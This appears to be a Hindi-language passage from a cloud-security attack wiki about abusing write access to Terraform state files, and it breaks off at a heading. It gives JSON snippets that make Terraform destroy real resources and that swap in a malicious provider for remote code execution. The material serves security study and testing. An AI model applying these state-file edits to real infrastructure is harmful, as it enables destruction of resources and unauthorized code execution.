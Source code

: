 यदि आपके पास terraform state फ़ाइलों पर लिखने की अनुमति है लेकिन आप terraform कोड को नहीं बदल सकते, तो [**यह शोध**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) फ़ाइल का लाभ उठाने के लिए कुछ दिलचस्प विकल्प प्रदान करता है:

#### संसाधनों को हटाना <a href="#deleting-resources" id="deleting-resources"></a>

संसाधनों को नष्ट करने के 2 तरीके हैं:

1. **वास्तविक संसाधन को नष्ट करने के लिए राज्य फ़ाइल में एक यादृच्छिक नाम के साथ एक संसाधन डालें**

क्योंकि terraform देखेगा कि संसाधन मौजूद नहीं होना चाहिए, यह इसे नष्ट कर देगा (वास्तविक संसाधन ID के अनुसार जो इंगित किया गया है)। पिछले पृष्ठ से उदाहरण:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **संसाधन को इस तरह से संशोधित करें कि इसे अपडेट करना संभव न हो (ताकि इसे हटाया जा सके और फिर से बनाया जा सके)**

EC2 उदाहरण के लिए, उदाहरण के प्रकार को संशोधित करना terraform को इसे हटाने और फिर से बनाने के लिए पर्याप्त है।

#### RCE

यह भी संभव है कि [एक कस्टम प्रदाता बनाएँ](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) और बस terraform स्थिति फ़ाइल में एक प्रदाता को दुर्भावनापूर्ण वाले से बदल दें या दुर्भावनापूर्ण प्रदाता के साथ एक खाली संसाधन जोड़ दें। मूल शोध से उदाहरण:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
### Replace blacklisted provider
